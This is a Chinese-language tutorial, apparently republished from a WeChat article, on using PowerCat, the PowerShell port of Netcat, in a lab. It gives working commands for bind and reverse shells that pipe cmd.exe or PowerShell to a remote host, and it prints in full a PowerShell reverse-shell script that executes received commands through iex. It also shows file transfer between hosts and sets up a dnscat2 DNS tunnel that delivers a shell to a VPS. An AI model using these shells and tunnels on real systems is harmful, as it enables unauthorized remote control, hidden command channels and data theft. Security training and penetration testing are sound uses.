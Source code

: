 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247485521&idx=1&sn=980c42a56e5a28a9cdc8b2adb03800bf&chksm=eaad886cddda017a16e7122eb6549dd380e36e07f388b6b5f16469e65003f21af7b77532090d&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRiczibLqyuomQssEzFQMcZiaX0qrBWbb01dfvTCXtE5ibqjh01H8iajgqzLQ/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRcBQ0jJb57ialib2ASIVbmDKPIA71u4HDSEGxCg2q4ibQPAKicUpicNichibkA/640?wx_fmt=png)

**目录**

PowerCat 的用法：

    正向连接

    反向连接

    Windows 之间互弹 shell

方法一：

    Powercat 传输文件

方法二：

    PowerCat 进行 DNS 隧道通信

  

**PowerCat 的用法**

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRktCYgI0kGpcZA0UKFvNSpOLN1pkVibedSZAO31fPKbzMIExpbzHnHiaw/640?wx_fmt=png)

```
参数的意义
-l    监听一个连接                      
 -c   连接到一个监听
 -p   指定端口
 -e   指定一个程序执行
 -ep  执行Powershell      
 -v   显示详细信息    
 -r   Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
 -u   Transfer data over UDP.                              [Switch]
 -dns  Transfer data over dns (dnscat2).                   [String]
 -dnsft   DNS Failure Threshold.                           [int32]
 -t    Timeout option. Default: 60                         [int32]
 -i    Input: Filepath (string), byte array, or string.    [object]
 -o    Console Output Type: "Host", "Bytes", or "String"   [String]
 -of   Output File Path.                                   [String]
 -d    Disconnect after connecting.                        [Switch]
 -rep  Repeater. Restart after disconnecting.              [Switch]
 -g    Generate Payload.                                   [Switch]
 -ge   Generate Encoded Payload.                           [Switch]
 -h    打印出帮助
```

  

  

由于 PowerCat 是 NetCat 的 PowerShell 形式，所以，PowerCat 可以无缝的和 Netcat 连接。PowerCat 的用法和 Netcat 几乎一模一样。

**正向连接**

Windows 上的 powercat 正向连接 Kali 上的 nc

Kali(192.168.10.11)：    

```
nc -lvp 8888
```

Windows:     

```
Import-Module .\powercat.ps1
powercat -c 192.168.10.11 -p 8888 -e cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRNGEHxqh4HNfrjAibtiao5V72HiaiaNhmZ0LQJ26xn4vZc1fv9UlvVTibqsw/640?wx_fmt=png)

  

  

**反向连接**

Kali 上的 nc 反向连接 Windows 上的 powercat

Kali：  

```
nc 192.168.10.1 8888 -vv
```

Windows(192.168.10.1)：  

```
Import-Module .\powercat.ps1
 powercat -l -p 8888 -e cmd.exe -v
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRhVVsPoh6Zbg9otFTyyz68086GjhpLt1ndZyoF3869DAVTpNTAoXqiaQ/640?wx_fmt=png)

  

  

**Windows 之间互弹 shell**

**方法一：**

服务器监听 (192.168.10.1)：  

```
Import-Module .\powercat.ps1
powercat -l -p 8888
```

客户端连接:    

```
Import-Module .\powercat.ps1
powercat -c 192.168.10.1 -p 8888 -ep
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRTq6kIYLDR7jFAFbNqq3hquKV0jhWl0U9yVmSQXf3liccIbloOj8rvicQ/640?wx_fmt=png)

**方法二：**

服务器监听 (192.168.10.1)： 

```
Import-Module .\powercat.ps1
powercat -l -p 8888
```

客户端连接:  

```
.\reverse.ps1
```

其中，reverse.ps1 脚本的内容如下:

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.10.1',8888);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRKViaFMzZbEJJZj3l1QQugVPeYItsuhTn1KdsUm8mKrnSox1xmZea0fw/640?wx_fmt=png)

  

  

**Powercat 传输文件**

此时，即使文件传输完毕，连接也不会自动断开，需要手动断开。

接收端：Windows10(192.168.10.1)  

```
Import-Module .\powercat.ps1
powercat -l -p 8888 -of test.txt -v
```

发送端：Windows7(192.168.10.130)  

```
Import-Module .\powercat.ps1
  powercat -c 192.168.10.1 -p 8888 -i C:\Users\xie\Desktop\test.txt -v
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRupibWWjaFoENlyNeibUibBI7G4ZuypOwlKn6DkbUXlegRCvmsao8bMOXA/640?wx_fmt=png)

  

  

**PowerCat 进行 DNS 隧道通信**

PowerCat 也是一套基于 DNS 通信的协议，PowerCat 的 DNS 通信是基于 dnscat。所以，在使用 DNS 隧道通信前，需要在我们的 VPS 上安装 dnscat。

**安装 dnscat**

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRLCopeoVdqllVVGEryfpiaricZMrh30QW5N195fFOR8WibMSEKLTicVbWFg/640?wx_fmt=png)

安装完 dnscat 后，在 VPS 上执行如下命令:

```
ruby dnscat2.rb ttpowercat.test -e open --no-cache
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRwA3qLS1SyeXyXlrXRqAWqmq4AEibRsct5UDE4llhibCicsDy1ia3fgNdQw/640?wx_fmt=png)

在 Windows 上执行如下命令:

```
powercat -c 192.168.10.11 -p 53 -dns ttpowercat.test -e cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRvksfRenoys2KkITr4ehILyWjPAUiats471PylZUxPntV8veWvoOic1zg/640?wx_fmt=png)  

然后我们的 Kali 上就能收到反弹过来的 shell 了。

执行 session -i 1 进入反弹过来的 shell 中，就可以执行 whoami 等系统命令了。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2d5K8ODdK0FlcEvQKmjfDhRADkxic3yVdW0NVr1qwr9uIWYakUBZkVRaj7ibgTas5Pc7Y6uUISXfv0A/640?wx_fmt=png)

  

  

  

注：在执行完 powercat 的命令后，还需要按 enter 键，对面才能接收到 shell

PowerCat 是 Netcat 的 Powershell 版本，作者是这么介绍的，项目地址：https://github.com/besimorhino/powercat